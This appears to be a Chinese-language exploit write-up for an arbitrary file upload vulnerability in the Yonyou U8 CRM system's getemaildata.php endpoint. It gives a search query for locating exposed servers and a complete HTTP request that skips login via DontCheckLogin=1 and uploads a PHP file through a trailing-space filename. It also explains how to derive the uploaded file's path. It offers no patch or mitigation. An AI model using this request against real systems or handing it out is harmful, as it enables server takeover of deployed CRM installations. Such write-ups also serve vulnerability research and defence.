


# 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件上传漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器权限，攻击服务器

## 漏洞影响

<a-checkbox checked>用友 U8 CRM客户关系管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="用友U8CRM"</a-checkbox></br>

## 漏洞复现

登陆页面



验证POC

```plain
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```



文件名需要十六进制减一

```plain
/tmpfile/updD24D.tmp.php
```